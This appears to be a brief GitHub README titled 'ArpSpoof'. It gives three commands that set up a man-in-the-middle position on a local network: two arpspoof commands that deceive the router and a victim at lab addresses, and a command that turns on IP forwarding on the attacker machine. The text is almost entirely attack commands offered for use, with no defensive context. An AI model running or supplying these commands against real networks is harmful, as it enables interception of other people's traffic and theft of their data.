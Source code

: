 # ArpSpoof

<img src="images/arpspoof.jpg" width="600" style="horizantal-align:middle">

### Deceive router
```
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
```

### Deceive victim
```
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7
```

### Change attacker machin to a router
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
